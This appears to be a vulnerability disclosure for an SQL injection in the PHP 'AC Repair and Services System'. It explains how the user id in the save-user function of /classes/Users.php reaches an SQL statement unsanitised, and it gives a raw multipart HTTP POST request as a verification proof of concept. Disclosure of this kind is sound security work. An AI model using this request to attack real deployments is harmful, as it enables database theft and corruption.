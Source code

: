



AC Repair and Services System using SQL injection vulnerabilities can be exploited by attackers to steal information or corrupt databases without authentication.



Source code address：https://www.sourcecodester.com/php/16513/ac-repair-and-services-system-using-php-and-mysql-source-code-free-download.html



The vulnerability is located in sava_users of the /classes/Users.php file. The parameters in the HTTP POST request are converted to independent variables by 'extract($_POST)'. In the judgment of line 26, when '$id' is empty, execute 'INSERT' statement to insert the field value in '$data' into the 'users' table. After successful insertion, obtain the self-increment ID of the new user through' $this->conn->insert_id '. And assign the value to '$id'. When you see the judgment in line 58, when the file upload function is used, the avatar and user id will be updated, and you can see that the id is directly spliced with SQL statements, that is, there are related problems.

![image-20250313230543305](images\image-20250313230543305.png)



漏洞验证：

```
POST /php-acrss/classes/Users.php?f=save HTTP/1.1
Host: 192.168.80.152
Content-Length: 864
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryX1DxiCFNmRo3UK24
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive

------WebKitFormBoundaryX1DxiCFNmRo3UK24
Content-Disposition: form-data; name="id"

9
------WebKitFormBoundaryX1DxiCFNmRo3UK24
Content-Disposition: form-data; name="firstname"

Claire
------WebKitFormBoundaryX1DxiCFNmRo3UK24
Content-Disposition: form-data; name="middlename"


------WebKitFormBoundaryX1DxiCFNmRo3UK24
Content-Disposition: form-data; name="lastname"

Blake
------WebKitFormBoundaryX1DxiCFNmRo3UK24
Content-Disposition: form-data; name="username"

cblake
------WebKitFormBoundaryX1DxiCFNmRo3UK24
Content-Disposition: form-data; name="password"


------WebKitFormBoundaryX1DxiCFNmRo3UK24
Content-Disposition: form-data; name="type"

2
------WebKitFormBoundaryX1DxiCFNmRo3UK24
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryX1DxiCFNmRo3UK24--

```

![image-20250313231847818](images\image-20250313231847818.png)





































